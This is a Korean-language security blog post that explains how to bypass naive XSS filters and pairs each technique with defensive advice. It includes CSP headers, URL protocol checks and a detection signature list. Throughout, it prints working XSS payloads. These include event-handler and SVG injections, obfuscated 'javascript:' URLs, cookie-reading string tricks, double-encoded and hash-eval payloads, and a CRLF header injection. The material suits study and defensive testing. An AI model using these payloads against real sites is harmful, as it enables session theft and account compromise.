 ```yaml
---
title: "[Infosec] XSS 필터링 우회 : 개념·우회 패턴·실전 대응"
date: 2025-09-16 12:40:00 +0900
categories: [보안, Web]
tags: [XSS, FilteringBypass, Encoding, URL, SVG, TemplateInjection, CSP]
description: "XSS 필터링을 우회해보자"
author: "송지민"
toc: true
---
```

> ⚠️ 학습/방어 목적 문서입니다. 테스트는 반드시 본인 환경(로컬/CTF)에서만 진행하세요.

---

## 요약
이 문서는 **잘못된(deny/naive) 필터링**에 대한 우회 기법을 모아 정리한 보강판입니다.  
추가된 내용: **SVG XSS, React/Angular 템플릿 주입(간단히), CSP 실전 설정 예시, Burp/탐지 체크리스트**를 포함합니다.

핵심: **검증 → 정규화 → 컨텍스트별 인코딩** 이 가장 안전하고 실무 적용 우선순위입니다.

---

## 1. 이벤트 핸들러(on*) — 요점 및 우회 기법
- 이벤트 핸들러 속성(onload/onerror/onfocus 등)은 HTML 속성 컨텍스트에서 그대로 실행될 수 있음.
- 방어 실패 사례: 단순히 `<script>` 태그와 `onerror` 문자열을 금지하는 필터.
- 우회 포인트:
  - 속성 이름을 분할/재조합 또는 중복 삽입으로 복원 (`oneonerrorrror` → `onerror` 재조합)
  - `autofocus`, `tabindex` 등으로 자동 트리거
  - `iframe srcdoc`/`innerHTML`을 통해 이벤트 핸들러 주입

예시:
```html
<input id="x" autofocus onfocus="alert(document.cookie)">
<iframe srcdoc="&lt;img src=1 onerror=alert(document.domain)&gt;"></iframe>
```

---

## 2. 문자열 치환/반복 치환의 한계
- 반복적으로 `replace()` 하더라도 예상치 못한 중첩/중간 문자열을 이용해 키워드를 복원 가능.
- 결론: **키워드 제거는 디펜스 아키텍처로 부적합**.  
  항상 **출력 컨텍스트**에 맞춘 이스케이프가 정답.

---

## 3. 활성 하이퍼링크(`javascript:`) 정규화 우회
- 브라우저는 다양한 escape/encoding을 정규화함.
- 방어: 정규화(`new URL(x, base)`) 후 `protocol` 비교. 그러나 오래된 브라우저/기기 차이 고려 필요.
- 권장: 프로토콜 화이트리스트(`http(s)`만 허용).

우회 예시:
```html
<a href="\1\4jAVasC\triPT:alert(1)">x</a>
```

방어 코드(예시):
```js
try {
  const u = new URL(userHref, document.baseURI);
  if (u.protocol !== 'http:' && u.protocol !== 'https:') throw 'bad';
} catch(e){ /* reject */ }
```

---

## 4. 태그·속성 기반 필터의 우회 (대/소문자, 줄바꿈, 대체 태그)
- HTML은 대소문자 구분 없음, 속성은 공백/줄바꿈으로 분리 가능.
- `on*` 검사에서 줄바꿈/탭 `\n`으로 우회 가능.
- 대체 태그(`video`, `source`, `svg`, `math`, `iframe`)로 우회 가능.

예시 우회:
```html
<img src="" 
onerror="alert(1)">
<video><source onerror="alert(1)"/></video>
```

---

## 5. SVG XSS
- `<svg>`과 그 내부 태그(`<foreignObject>`, `<script>`, `<image onerror=...>`)는 자주 간과됨.
- SVG은 XML 네임스페이스와 폰트/외부 리소스 로딩을 허용하므로 공격면이 큼.

예시:
```html
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.domain)</script>
</svg>
```
또는:
```html
<svg><image href="invalid" onerror="alert(1)"></image></svg>
```

방어 팁:
- SVG를 사용자 업로드로 허용할 때는 **완전 샌드박스 처리(렌더되지 않게, 또는 스크립트 제거)** 하거나 **content-disposition: attachment**로 강제 다운로드.
- SVG 파서로 허용 태그/속성만 필터링. (화이트리스트 방식)

---

## 6. React / Angular / Template Injection(간단 요약)
- **React**: JSX `dangerouslySetInnerHTML`를 쓰지 않으면 보통 안전. 그러나 서버에서 렌더된 HTML을 React가 innerHTML로 넣거나, 서버 템플릿에서 치환 없이 출력하면 문제.
- **Angular**: 바인딩 컨텍스트(`[]`, `()`)와 `innerHTML` 사용 주의. Angular는 자체 sanitizer를 제공하지만, `bypassSecurityTrustHtml`은 위험.
- **서버 템플릿 주입**: 서버 템플릿 엔진(예: ejs, nunjucks, jinja2)에서 autoescape를 끈 경우 위험.

권장:
- 프레임워크 기본 escaping 사용. 서버에서 렌더할 때도 템플릿의 autoescape 켜기.
- 사용자 HTML을 꼭 허용해야 하면, **DOMPurify** 같은 검증된 라이브러리로 정화.

---

## 7. JS 언어 특성 기반 우회 (강력)
- Unicode escape, `String.fromCharCode`, computed member access (`document['coo'+'kie']`), 숫자→36진수 등.
- 극단적: **JSFuck** 같은 방식으로 키워드 없이도 동작한다 (길지만 우회 가능).

예시:
```js
window['al'+'ert'](document['coo'+'kie']);
```
또는:
```js
String.fromCharCode(97,108,101,114,116) // "alert"
```

---

## 8. 디코딩 전/후 검증(더블 디코딩) 문제
- 원칙: **입력은 정규화(디코딩) → 검증 → 저장**의 순으로 한 번만 처리.
- 실수 사례: 검증은 인코딩된 상태에서, 실제 사용은 디코딩 상태에서 이루어짐 → 우회 가능.

예시 공격:
```
/search?query=%253Cscript%253Ealert(1)%253C/script%253E
```

방어: 서버에서 수신한 모든 URL 인자에 대해 `decodeURIComponent` 동일 횟수로 적용한 뒤 검사.

---

## 9. 길이 제한/분할 저장 우회
- 제한된 입력 길이를 회피하려면 페이로드를 여러 공간(해시/쿠키/localStorage/외부 스크립트)으로 분산.
- 常用 기법: `location.hash` + `eval(location.hash.slice(1))` (eval은 최대한 금지)

예시:
```
https://victim/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie)
```

---

## 10. CSP(Content Security Policy) 실전 예시 (권장)
- CSP은 XSS 피해 규모를 줄이는 강력한 수단. 예시 헤더:
```
Content-Security-Policy: default-src 'none'; script-src 'self' 'sha256-<HASH>'; object-src 'none'; base-uri 'self'; frame-ancestors 'none';
```
- nonce 기반 또는 해시 기반 정책 권장 (`'nonce-...'` 또는 `'sha256-...'`)  
- 주의: `unsafe-inline` 과 `unsafe-eval` 은 피해 감소 효과를 없애므로 사용 금지.

---

## 11. 탐지·테스트 체크리스트 (Burp/자동화)
- 시그니처: `onerror=`, `onload=`, `<script`, `<svg`, `srcdoc=`, `javascript:`
- 정규화 후 검사: `new URL(payload, base)`를 사용해 `protocol`/`host` 검증
- 자동투입 페이로드: 다양한 인코딩(`%25`, `%09`, `%0A`, `%0D`, `\x`, `\u`)과 대소문자 변형
- Burp Intruder Payloads: JSFuck snippets, SVG payloads, event-handler snippets, template injection markers (`{{ }}`, `<% %>`)
- 탐지 로그: 입력 저장시의 원본+정규화된 값 모두 로깅

---

## 12. 제어문자 / 퍼센트-인코딩 (`%09`, `%0A`, `%08` 등)
### 왜 중요한가?
퍼센트로 인코딩된 제어문자(예: `%09` 탭, `%0A` LF, `%0D` CR, `%00` NUL, `%08` BS 등)는 디코딩·정규화 과정에서 제거되거나 공백으로 바뀌어 필터를 우회할 수 있습니다. 특히 URL 스킴, 속성 분리, HTTP 헤더 조작(CRLF)에서 큰 위협.

### 공격 예시
- `ja%09vascript:alert(1)` → 일부 정규화에서 `javascript:`로 복구
- 속성 분리: `<img src="x"%0Aonerror=alert(1)>`
- 헤더 주입: `Set-Cookie: x=1%0D%0ASet-Cookie: hacked=1` (잘못 처리 시)